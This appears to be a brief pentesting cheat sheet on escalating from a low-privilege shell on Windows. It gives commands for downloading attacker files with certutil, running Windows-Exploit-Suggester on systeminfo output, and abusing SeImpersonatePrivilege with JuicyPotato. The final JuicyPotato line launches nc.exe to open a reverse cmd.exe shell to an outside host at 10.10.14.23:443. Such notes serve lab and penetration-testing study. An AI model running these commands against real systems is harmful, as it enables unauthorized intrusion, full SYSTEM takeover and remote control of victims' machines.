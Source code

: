 This post's content is about when you get a low, unprivileged shell on a Windows Machine.
First and foremost thing is to upload files on the system.
### Steps:
    Start server on attacker machine:
    >python3 -m http.server 80 #on attacker machine
    On victim machine:
    >certutil.exe -urlcache -split -f http://<ip><port>/path/to/file

Easy way to check for privilege escalation vulnerabilties is to use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 
Steps to use Windows-Exploit-Suggester
### Steps:
    On attacker machine:
    Install xlrd python library.
    >python windows-exploit-suggester.py -update #this will create a .xls file which will contain all ms cve's   
    On victim MS machine, run systeminfo to fetch system information, and save it locally on attacking machine as sys.txt.
    Then on attacking machine use
    >python windows-exploit-suggester.py --database file.xls --systeminfo sys.txt
    It will list all the vulnerabilties. 
    Note: [E] means Exploitdb, [M] means metasploitable

Privilege exploitation
### ?
    whoami /priv ->lists privileges current user has

### Some privileges if enables to exploit
    1) SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
       If this is Enabled then you are the SYSTEM.
       List of CLDIS-> https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
       juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} #Enter CLDIS
